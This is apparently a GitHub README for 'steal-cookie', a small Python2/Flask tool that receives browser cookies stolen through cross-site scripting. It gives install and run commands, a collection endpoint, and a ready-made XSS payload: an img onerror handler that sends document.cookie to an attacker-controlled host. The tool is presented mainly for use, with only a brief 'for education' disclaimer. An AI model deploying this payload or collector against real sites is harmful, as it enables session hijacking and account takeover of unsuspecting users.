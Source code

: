 # steal-cookie
steal cookies from website using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ apt install python2-pip
````

````
git clone https://github.com/knassar702/steal-cookie
````

````
$ pip install flask
````

# Run It :
 
 ````
 python2 xss.py
 ````
 
# stealing cookie using xss :

 <h2>enter the cookie in this url </h2>
 
 ````http://YOUR_IP/cookie?cookie=COOKIE```` 

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://xss-exploiter/cookie?cookie=" + document.cookie'>
  ````
  
 # Note :
    
    This Tool For education .. Good Luck ^_^

# My Links :

<a href="https://www.facebook.com/profile.php?id=100015121337012" > <h3> Facebook </h3></a>

